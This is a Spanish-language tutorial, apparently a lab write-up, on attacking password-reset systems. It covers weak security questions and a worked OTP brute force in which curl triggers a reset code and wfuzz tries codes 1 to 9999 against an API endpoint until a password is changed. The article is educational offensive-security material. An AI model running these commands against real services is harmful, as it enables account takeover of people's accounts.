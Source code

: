 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinirlas por fuerza bruta.

Sin embargo, es bastante común que las empresas pasen por alto securizar los mecanismos de restablecimiento de contraseñas que ofrecen a sus empleados, usados por ejemplo, ante un olvido de la misma. 

En este artículo, veremos cómo aprovecharnos de esta circunstancia en dos métodos frecuentemente usados: Preguntas/Respuestas y OTP.

# Preguntas/Respuestas
Las preguntas de seguridad se pueden utilizar durante el proceso de restablecimiento de contraseña. El usuario, configura las respuestas a esas preguntas, según su vida privada, gustos, etc. Algunas preguntas de ejemplo serían:

- Nombre del padre/madre.
- Nombre de la mascota.
- ¿Cuándo es tu cumpleaños?
- Color favorito
- etc.

Personalmente, no es método que me inspire mucha confianza como sistema único de restablecimiento. Con un poco de OSSINT un atacante puede obtener la información necesaria para responderlas.



# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS, para que pueda ser introducida por el interesado.

A continuación, simularemos un ataque a un mecacanismo OTP que no ha sido securizado convenientemente. Partiremos de un correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la password OTP y la nueva clave. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

No es difícil encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz. Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
# wfuzz -c --hh 23  --hc 404 -u http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets -z range,1-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecucción de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.







